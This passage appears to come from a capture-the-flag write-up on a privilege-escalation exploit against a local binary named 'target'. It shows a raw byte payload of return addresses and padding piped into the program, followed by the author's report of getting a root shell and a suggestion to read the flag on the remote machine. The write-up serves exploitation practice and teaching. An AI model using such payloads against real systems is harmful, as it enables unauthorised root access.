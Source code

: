 Press `enter`:

![alt text](image-11.png)

And paste the rest:

```
\x10\x90\x04\x08\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff\x10\x90\x04\x08' ; cat) | ./target
```

![alt text](image-12.png)

Woohoo! We are root! Not we can do anything! I am sure you can do the same on the remote machine, and read the flag yourself :)
